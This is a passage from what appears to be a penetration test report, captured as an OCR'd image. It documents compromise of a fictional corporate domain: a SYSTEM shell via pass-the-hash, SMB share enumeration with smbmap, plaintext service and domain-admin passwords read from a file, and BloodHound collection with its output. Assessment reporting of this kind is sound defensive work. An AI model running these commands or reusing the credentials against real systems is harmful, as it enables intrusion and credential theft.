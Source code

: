 ```bash
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1999]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

# EVIDENCE: SYSTEM-level access on file server via Pass-the-Hash
```

**Sensitive File Discovery**
```bash
# Share Enumeration
smbmap -H 10.50.3.50 -u mrodriguez -p 'ITAdmin@2024!' -R IT_Admin

[+] IP: 10.50.3.50:445  Name: VFS-FS-01
        Disk                     Permissions     Comment
        ----                     -----------     -------
        IT_Admin                 READ, WRITE
        ./IT_Admin
        dr--r--r--                0 Mon Sep 13 14:23:12 2025    .
        dr--r--r--                0 Mon Sep 13 14:23:12 2025    ..
        dr--r--r--                0 Mon Sep 13 13:15:45 2025    Scripts
        -r--r--r--              245 Mon Sep 12 16:42:33 2025    backup_credentials.txt ⚠️
        -r--r--r--             1024 Mon Sep 12 16:45:12 2025    sql_connection.ps1

# Downloaded File Content
cat backup_credentials.txt

SQL Service Account: sql_service
Password: SQLSvc#2024!Backup

Domain Admin Account (Emergency): da_emergency
Password: EmergencyDA!2024

# EVIDENCE: Plaintext credentials stored in file share
```

---

### ⬆️ Phase 5: Privilege Escalation Evidence

**BloodHound Data Collection**
```bash
# Collection
bloodhound-python -u jthompson -p 'Summer2024!' -d corp.vanguardfs.local -dc VFS-DC-02.corp.vanguardfs.local -c All -ns 10.50.2.11

INFO: Found AD domain: corp.vanguardfs.local
INFO: Connecting to LDAP server: VFS-DC-02.corp.vanguardfs.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 5 computers
INFO: Connecting to LDAP server: VFS-DC-02.corp.vanguardfs.local
INFO: Found 127 users
INFO: Found 58 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Done in 00M
